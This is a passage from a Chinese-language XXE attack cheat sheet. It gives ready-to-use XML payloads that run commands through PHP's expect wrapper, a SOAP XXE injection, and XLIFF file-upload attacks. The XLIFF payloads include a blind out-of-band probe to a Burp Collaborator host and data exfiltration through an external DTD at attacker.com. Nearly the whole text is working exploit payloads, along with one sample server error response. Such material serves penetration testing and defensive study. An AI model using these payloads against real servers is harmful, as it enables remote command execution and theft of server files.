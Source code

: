 #### 远程代码执行

如果 PHP 的 expect 模块被加载了

```xml-dtd
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

### SOAP - XEE

```xml-dtd
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>
```

### XLIFF - XXE

XLIFF（XML Localization Interchange File Format，XML本地化交换文件格式）是一种基于XML的位文本格式，用于标准化本地化过程中可本地化数据在工具之间传递的方式，也是CAT工具交换的通用格式。

#### Blind request

```xml-dtd
------WebKitFormBoundaryqBdAsEtYaBjTArl3
Content-Disposition: form-data; name="file"; filename="xxe.xliff"
Content-Type: application/x-xliff+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE XXE [
<!ENTITY % remote SYSTEM "http://redacted.burpcollaborator.net/?xxe_test"> %remote; ]>
<xliff srcLang="en" trgLang="ms-MY" version="2.0"></xliff>
------WebKitFormBoundaryqBdAsEtYaBjTArl3--
```

服务器响应时出错：

```json
{"status":500,"error":"Internal Server Error","message":"Error systemId: http://redacted.burpcollaborator.net/?xxe_test; The markup declarations contained or pointed to by the document type declaration must be well-formed."}
```

#### Exfiltrating Data via Out of Band

```xml-dtd
------WebKitFormBoundaryqBdAsEtYaBjTArl3
Content-Disposition: form-data; name="file"; filename="xxe.xliff"
Content-Type: application/x-xliff+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE XXE [
<!ENTITY % remote SYSTEM "http://attacker.com/evil.dtd"> %remote; ]>
<xliff srcLang="en" trgLang="ms-MY" version="2.0"></xliff>
------WebKitFormBoundaryqBdAsEtYaBjTArl3--
```
